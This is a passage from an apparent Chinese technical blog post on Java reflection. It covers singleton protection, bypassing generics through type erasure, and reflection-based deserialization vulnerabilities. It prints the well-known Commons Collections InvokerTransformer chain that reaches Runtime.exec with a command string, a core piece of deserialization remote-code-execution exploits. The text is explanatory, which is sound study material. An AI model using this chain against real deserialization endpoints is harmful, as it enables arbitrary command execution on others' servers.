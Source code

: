 ![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54jFxUm1jiasR6K0AXPib3DYYTUVPibudrCCOxzSehiaEDQWy25sKBQI3a8hNcLjsfU87UuIXyMUQGeWg/640?wx_fmt=png "")  
  
是的，这是一种常见的解决方案。在单例类的构造方法中，可以添加逻辑来检查是否已经存在实例，如果存在则抛出异常，防止通过反射机制绕过单例模式的限制。这样可以确保即使是通过反射调用私有构造方法，也无法创建多个实例。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54jFxUm1jiasR6K0AXPib3DYYaRHKjQtP9v2g7EZIZEeZjLzgzHHicQZSwYMpzuLohnmUzutwicUA03iaQ/640?wx_fmt=png "")  
#### 通过反射来突破泛型限制  
  
比如，通过擦除机制，可以在运行时动态获取泛型类型的信息，从而绕过了编译时的类型检查，可能导致意外的行为发生。这就是一种不好的代码实践，可能会破坏泛型的安全性和规范性。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54jFxUm1jiasR6K0AXPib3DYYFLpe7TrmqJbUC8icRx2d4Z0urBXpQNPic099O2lKG8ib0dH1mmiacK9B6w/640?wx_fmt=png "")  
  
抛异常。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54jFxUm1jiasR6K0AXPib3DYYIxWk9oCAASDiaB0oUiaeWv4tAQMqB3k0sYXGeTOaicaU7nqHcGOjSZ1Wg/640?wx_fmt=png "")  
  
同样通过反射：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54jFxUm1jiasR6K0AXPib3DYYtqC6IhfFYV1jYZ0kiadPT3QLFrsp15ZSlfX089oMGISzWkZcamJdNPA/640?wx_fmt=png "")  
  
如下。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54jFxUm1jiasR6K0AXPib3DYYdplR9g0AyxnL6K7SKZjcBI9kyRfJJgyngN5icEJqrHz7bHnBnB627Zg/640?wx_fmt=png "")  
在黑暗的角落，禁止的名单悄然展开，反射被无情地封锁。然而，绕道而行，总是有一线生机。  
#### 利用反射链的序列化漏洞  
  
在那些往昔的岁月里，序列化漏洞的文章随处可见，它们如同构造的序列，一一展开。  
  
让我们窥探一段代码的实现：  
```
Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer(
        "getMethod",
        new Class[] {String.class, Class[].class},
        new Object[] {"getRuntime", new Class[0]}
    ),
    new InvokerTransformer(
        "invoke",
        new Class[] {Object.class,Object[].class},
        new Object[] {null, null}
    ),
    new InvokerTransformer(
        "exec",
        new Class[] {String[].class},
        new Object[] { commandstring }
        //new Object[] { execArgs }
    )
};
```  
  
现在，让我们深入InvokerTransformer类的transform方法，探索其源码的奥秘。  
  